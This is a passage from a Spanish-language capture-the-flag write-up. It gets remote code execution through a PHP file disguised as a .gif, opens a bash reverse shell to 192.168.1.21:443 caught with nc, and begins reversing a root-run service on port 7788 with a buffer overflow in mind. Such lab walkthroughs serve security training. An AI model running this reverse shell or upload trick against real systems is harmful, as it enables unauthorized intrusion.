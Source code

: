 Con este código sí que es posible subir el archivo y como se puede ver en el código fuente se le asigna el siguiente nombre:
![[Pasted image 20240818222730.png]]

Por lo que si accedemos a `uploads/2f8f1c9cffab.gif` y posteriormente utilizamos el parámetro `cmd` tenemos ejecución remota de comandos, ya que la web interpreta el código php aunque el archivo tenga extension .gif:
![[Pasted image 20240818222920.png]]

Por lo que si ejecutamos el comando:
```bash
bash -c "bash -i >& /dev/tcp/192.168.1.21/443 0>&1"
```

Y nos ponemos en escucha por el puerto 443 con `nc`, obtenemos una reverse Shell:
![[Pasted image 20240818223320.png]]

Hacemos el tratamiento de la TTY con:
![[Pasted image 20240818223633.png]]
![[Pasted image 20240818223814.png]]

En el mismo directorio uploads obtenemos la 5ta flag:
![[Pasted image 20240818223940.png]]

Si decodificamos la *flag* obtenemos:
![[Pasted image 20240818224128.png]]

## Flag 6
Si hacemos una búsqueda por la palabra agent en el sistema dada la pista de la *flag* encontramos dos ficheros poco usuales en el sistema:
![[Pasted image 20240818234036.png]]

Si mostramos el contenido del archivo `/etc/xintetd.d/agent` podemos ver información como las palabras service agent encontradas en la *flag*, y el puerto que parece ser que se abre al  ejecutar el binario:
![[Pasted image 20240818234224.png]]

Por lo que si listamos las conexiones de la máquina podemos ver que el puerto 7788 está abierto:
![[Pasted image 20240819001931.png]]

Además de que lo ejecuta root, ya que al conectarnos con nc al localhost por el puerto 7788 aparece este proceso correspondiente al binario:
![[Pasted image 20240819002103.png]]
![[Pasted image 20240819002214.png]]

Si somos capaces de causar *buffer overflow* podemos ejecutar codigo malicioso que nos permita elevar privilegios.

Por lo que procedemos a analizarlo con ghidra para ver si somos capaces de ver primero el Agent ID correcto haciendo ingeniería inversa.
![[Pasted image 20240819000827.png]]

